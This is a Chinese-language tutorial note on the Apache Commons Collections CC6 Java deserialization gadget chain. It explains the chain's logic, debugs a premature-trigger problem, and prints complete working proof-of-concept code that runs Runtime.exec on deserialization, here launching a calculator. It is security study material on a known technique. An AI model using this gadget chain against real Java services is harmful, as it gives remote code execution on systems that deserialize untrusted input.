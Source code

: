 ```yaml
---
created: '21/11/07'
title: 反序列化篇6
tags:
  - java
  - java安全
---
```

# 反序列化篇6
## CC6
反序列化篇5提到了CC1链在java8高版本并不适用，当我们去尝试，会产生报错:`java.lang.annotation.Retention missing element entrySet`。

这是由于`AnnotationInvocationHandler`在高版本中改变了readObject的逻辑，不再使用我们精心构造的`LazyMap`而是使用自己新建的`LinkedHashMap`，导致该对象无法获得`entrySet`的内容，所以会报前面的这个错误。

为了解决高版本的利用问题，我们需要重新构造链的前半部分，寻找是否有其他地方能够调用`LazyMap.get()`方法。

找到的地方是`org.apache.commons.collections.keyvalue.TiedMapEntry`，在其`getValue`方法中调⽤了`this.map.get`，而其`hashCode`，`toString`，`equals`方法都调用了自身的`getValue`方法。

```java
import org.apache.commons.collections.KeyValue;
public class TiedMapEntry implements Entry, KeyValue, Serializable { 
    private static final long serialVersionUID = -8453869361373831205L;
    private final Map map; private final Object key;
    public TiedMapEntry(Map map, Object key) { 
        this.map = map; this.key = key;
    }
    public Object getKey() { 
        return this.key;
   }
    public Object getValue() { 
        return this.map.get(this.key);
    }
    // ...
    public int hashCode() { 
    Object value = this.getValue();
    return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^(value == null ? 0 : value.hashCode());
    }
// ... 
}
```
在ysoserial中，是利用了`java.util.HashSet.readObject()`->`HashMap.put()`->`HashMap.hash(key)` ->`TiedMapEntry.hashCode()`。
而实际上，在`java.util.HashMap.readObject()`就有`hash(key)`的操作，我们可以利用此来构造gadget。

### 构造gadget
构造的时候使用了一些技巧，先创建了一个fakeTransformers，在序列化的前一刻才将其替换为真正的Transformers，这样能够防止我们在生成poc时的本地命令执行。
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1),
        };

        // 先使用fakeTransformer防止本地命令执行
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "keykey");

        Map objMap = new HashMap();
        objMap.put(tiedMapEntry, "valuevalue");

        // 使用反射替换transformerChain的transformers
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(objMap);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```
当我们执行这段代码的时候，发现反序列化时并没有弹出来计算器! 这是为什么呢？

### 为什么没有成功执行
我们尝试在`LazyMap.get`方法中下一个断点调试一下，发现问题:
![](https://gitee.com/guuest/images/raw/master/img/20211107114655.png)

我们在构造gadget的时候就触发了`LazyMap.get`方法，导致`LazyMap`的假利用链被提前触发，而当我们真正想要去反序列化时，LazyMap已经存在`keykey`这个键，导致我们无法进入`this.factory.transfrom`这个语句触发我们真正的利用链，但是我们并没有去手动调用`LazyMap.get`，为什么这个方法会触发呢？

我们回顾源码，只有在`TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "keykey");`这句话中存在keykey，当我们去查看`HashMap.put`方法时，我们发现了罪魁祸首:
![](https://gitee.com/guuest/images/raw/master/img/20211107115113.png)
当我们构造gadget时会将`TiedMapEntry`手动put到HashMap，导致其触发了`hash(key)`->`TiedMapEntry.hashCode()`->`TiedMapEntry.getValue()`提前触发了我们的链，并且将该key存入了`outerMap`，下次我们真正利用时由于`outerMap`已经存在该key而导致利用链失败!

了解了原因之后我们就很好解决该问题了: 在`objMap.put`之后调用`outerMap.remove`删除该key即可。

### 最终poc
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1),
        };

        // 先使用fakeTransformer防止本地命令执行
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "keykey");

        Map objMap = new HashMap();
        objMap.put(tiedMapEntry, "valuevalue");
        outerMap.remove("keykey");

        // 使用反射替换transformerChain的transformers
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(objMap);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

### 总结
整条链的调用逻辑为:
```
HashMap.readObject()
  putForCreate(key) === key.hashCode() === TiedMapEntry.hashCode()
    TiedMapEntry.getValue()
      LazyMap.get()
         ChainedTransformer.transform()
	      ConstantTransformer.transform() // 获取Runtime.class
	      InvokerTransformer.transform()   // 获取Runtime.getRuntime
	      InvokerTransformer.transform()   // 获取Runtime实例
	      InvokerTransformer.transform()   // 调用exec方法触发rce
```